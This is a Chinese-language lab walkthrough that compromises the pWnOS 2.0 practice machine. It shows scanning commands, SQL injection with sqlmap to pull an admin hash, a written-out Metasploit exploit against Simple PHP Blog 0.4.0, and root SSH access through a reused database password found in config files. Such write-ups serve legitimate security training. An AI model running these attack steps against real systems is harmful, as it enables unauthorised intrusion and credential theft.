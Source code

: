 # 一、信息收集

1. 主机发现
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](./img/pWnOS2.0/1.png)

2. 端口扫描
   
   ```shell
   nmap -p- -sV -sC 10.10.10.100
   ```
   
   ![2.png](./img/pWnOS2.0/2.png)

3. 发现开放了80端口，识别一下web指纹
   
   ![3.png](./img/pWnOS2.0/3.png)

4. 访问一下web，在home界面下发现管理员邮箱admin@isints.com
   
   ![4.png](./img/pWnOS2.0/4.png)

5. 还有一个注册界面，注册一个账号
   
   ![5.png](./img/pWnOS2.0/5.png)

6. 点击激活连接激活账号
   
   ![6.png](./img/pWnOS2.0/6.png)

7. 登陆后发现什么也没有，测试一下登录框，发现邮箱地址输入框存在SQL注入
   
   ![7.png](./img/pWnOS2.0/7.png)

8. 使用sqlmap跑注入点，成功获取到管理员账号密码
   
   ![8.png](./img/pWnOS2.0/8.png)

9. 解密密码的md5值，成功获取密码killerbeesareflying
   
   ![9.png](./img/pWnOS2.0/9.png)

10. 但是这个管理员账号似乎没什么用，使用gobuster扫描一下目录
    
    ![10.png](./img/pWnOS2.0/10.png)

11. 发现存在/blog、/info、/cgi-bin目录，先看一下/info目录，发现是一个phpinfo
    
    ![11.png](./img/pWnOS2.0/11.png)

12. /blog目录是一个博客界面，f12看到使用的源码为Simple PHP Blog 0.4.0
    
    ![12.png](./img/pWnOS2.0/12.png)

# 二、getshell

1. 使用sqlmap获取os-shell和上传脚本反弹shell都失败了，思路换到blog上，searchsploit搜索一下Simple PHP Blog
   
   ![13.png](./img/pWnOS2.0/13.png)

2. 发现存在多个代码执行，使用1191.pl进行测试，但是当前版本的perl已经放弃了switch模块，多次尝试后安装失败，应该是网络原因，没办法只好上msf了
   
   ```shell
   msfconsole
   search Simple PHP Blog 0.4.0
   use 0
   set rhosts 10.10.10.100
   set uri /blog
   exploit
   ```
   
   ![14.png](./img/pWnOS2.0/14.png)

3. 成功获取www-data权限shell

# 三、权限提升

1. shell受限，执行不了什么命令，好在知道了网站的绝对路径，使用cat命令发现了两个mysqli配置文件
   
   ![15.png](./img/pWnOS2.0/15.png)

2. 最后使用第二个配置文件中的密码：root@ISIntS成功连接ssh，获取到root权限
   
   ![16.png](./img/pWnOS2.0/16.png)
